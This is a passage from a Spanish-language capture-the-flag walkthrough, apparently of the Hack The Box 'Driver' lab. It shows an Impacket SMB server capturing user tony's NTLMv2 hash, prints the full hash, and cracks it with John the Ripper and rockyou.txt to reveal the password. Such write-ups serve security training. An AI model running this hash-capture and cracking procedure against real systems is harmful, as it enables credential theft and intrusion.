 Obtenemos el hash `NTLMV2` del usuario que ha visto el archivo

```
# impacket-smbserver smbFolder $(pwd) -smb2support

Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (10.129.190.165,49414)
[*] AUTHENTICATE_MESSAGE (DRIVER\tony,DRIVER)
[*] User DRIVER\tony authenticated successfully
[*] tony::DRIVER:aaaaaaaaaaaaaaaa:14978114132cb09c7f1553f8b29cd12e:010100000000000080d84eff0ee1da0173d225b49ffbe225000000000100100041007700580062005800640063007100030010004100770058006200580064006300710002001000510074006b004100620064007800470004001000510074006b00410062006400780047000700080080d84eff0ee1da010600040002000000080030003000000000000000000000000020000072a19e6bb6ea3d05498b88b7dfbede2c690b42f15a82398bc73d563d078501200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310036002e0031003600000000000000000000000000
[*] Connecting Share(1:IPC$)
[*] Connecting Share(2:smbFolder)
[*] Disconnecting Share(1:IPC$)
[*] Disconnecting Share(2:smbFolder)
[*] Closing down connection (10.129.190.165,49414)
[*] Remaining connections []
```

## Intrusión

Los hashes `NTLMV2` no se pueden usar para hacer `pass the hash`, lo único que se puede hacer es intentar `crackearlos`, para ello nos creamos un archivo con el `hash`

```
tony::DRIVER:aaaaaaaaaaaaaaaa:14978114132cb09c7f1553f8b29cd12e:010100000000000080d84eff0ee1da0173d225b49ffbe225000000000100100041007700580062005800640063007100030010004100770
058006200580064006300710002001000510074006b004100620064007800470004001000510074006b00410062006400780047000700080080d84eff0ee1da01060004000200000008003000300000000000000000000
0000020000072a19e6bb6ea3d05498b88b7dfbede2c690b42f15a82398bc73d563d078501200a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e003100360
02e0031003600000000000000000000000000
```

`Rompemos` el `hash` con john

```
# john -w:rockyou.txt hash_NTLMV2
Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
liltony          (tony)     
1g 0:00:00:00 DONE (2024-07-28 18:58) 12.50g/s 409600p/s 409600c/s 409600C/s softball27..eatme1
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed. 
```
